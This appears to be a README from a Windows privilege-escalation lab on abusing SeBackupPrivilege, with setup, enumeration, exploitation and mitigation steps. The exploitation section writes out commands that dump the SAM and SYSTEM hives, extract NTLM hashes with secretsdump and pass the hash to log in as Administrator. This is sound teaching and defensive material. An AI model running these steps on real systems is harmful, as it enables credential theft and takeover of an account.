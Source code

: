 # SeBackupPrivilege

## Table of Contents

- [SeBackupPrivilege](#SeBackupPrivilege)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

The SeBackupPrivilege is a Windows privilege that provides a user or process with the ability to read files and directories, regardless of the security settings on those objects. This privilege can be used by certain backup programs or processes that require the capability to back up or copy files that would not normally be accessible to the user. 

However, if this privilege is not properly managed or if it is granted to unauthorized users or processes, it can lead to a privilege escalation vulnerability. The SeBackupPrivilege vulnerability can be exploited by malicious actors to gain unauthorized access to sensitive files and data on a system.

## Lab Setup

### Manual Lab Setup

:warning: <b>If you are using Windows 10/11 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

1) Open a PowerShell with local Administrator privileges and run the following command to create a new user:

```
net user ncv Passw0rd! /add
```

2) Run the following command to enable WinRM service:

```
Enable-PSRemoting -Force
```

3) Then, run the following commands to install and import the Carbon module:

```
Install-Module -Name carbon -Force
```

 and 

 ```
 Import-Module carbon
 ```

 4) Use the following cmdlets to grant the SeBackupPrivilege to the current user and verify the privilege:

 ```
 Grant-CPrivilege -Identity ncv -Privilege SeBackupPrivilege
 ```

 and

 ```
 Test-CPrivilege -Identity ncv -Privilege SeBackupPrivilege
 ```

Outcome:

![SebackupPrivilege-Manual-Setup](/Pictures/SeBackUp-Manual-Setup1.png)

5) Last but not least, restart the computer.

### PowerShell Script Lab Setup 

:warning: <b>If you are using Windows 10/11 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

To set up the lab with the 'SeBackupPrivilege' vulnerability is by using the custom PowerShell script named [SeBackupPrivilege.ps1](/Lab-Setup-Scripts/SeBackupPrivilege.ps1).

Open a PowerShelll with local Administrator privileges and run the script:

```
.\SeBackupPrivilege.ps1
```

Outcome:

![SebackupPrivilege-Script-Setup](/Pictures/SeBackUp-Script.png)

## Enumeration

### Manual Enumeration

To perform manual enumeration, you can open a command prompt and use the following command to enumerate the current privileges of the user:

```
whoami /priv
```

Outcome:

![SeBackupPrivilege-Manual-Enumeration](/Pictures/SeBackUp-Manual-Enum.png)

### Tool Enumeration

To run the [SharpUp](https://github.com/GhostPack/SharpUp) tool and perform an enumeration of the `SeBackupPrivilege` vulnerability, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit TokenPrivileges
```

Outcome:

![SeBackupPrivilege-Tool-Enumeration](/Pictures/SeBackUp-Tool-Enum.png)

## Exploitation

To abuse this vulnerability you should follow these steps:

1) Create a temp directory:

```
mkdir C:\temp
```

2) Copy the sam and system hive of HKLM to C:\temp and then download them.

```
reg save hklm\sam C:\temp\sam.hive
```

and

```
reg save hklm\system C:\temp\system.hive
```

Outcome:

![SeBackupPrivilege-Exploitation-Copy-Hives](/Pictures/SeBackUp-Exploitation-1.png)

3) Use [impacket-secretsdump](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) tool (Kali Linux Default) and obtain ntlm hashes:

```
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

Outcome:

![SeBackupPrivilege-Exploitation-Observe-NTLM-Hashes](/Pictures/SeBackUp-Exploitation-2.png)

4) Use again evil-winrm to pass the hash and connect as Local Administrator:

```
evil-winrm -i <ip> -u "Administrator" -H "<hash>"
```

Outcome:

![SeBackupPrivilege-Exploitation-Evil-WinRM-Pass-The-Hash](/Pictures/SeBackUp-Exploitation-3.png)

## Mitigation

Follow the steps below to remove the `SeBackupPrivilege` from a user:

1) Press Win + R to open the Run dialog, type `secpol.msc`, and hit Enter. This will open the Local Security Policy editor.

2) In the Local Security Policy editor, navigate to **Local Policies** > **User Rights Assignment**.

3) Look for the **Back up files and directories** policy (which corresponds to SeBackupPrivilege).

4) Double-click the policy, and a properties window will appear.

5) In the properties window, you can remove the user or group from the list to revoke the privilege. Click **Apply** and then **OK** to save the changes.

## References

- [Special privileges assigned to new logon Microsoft](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4672)
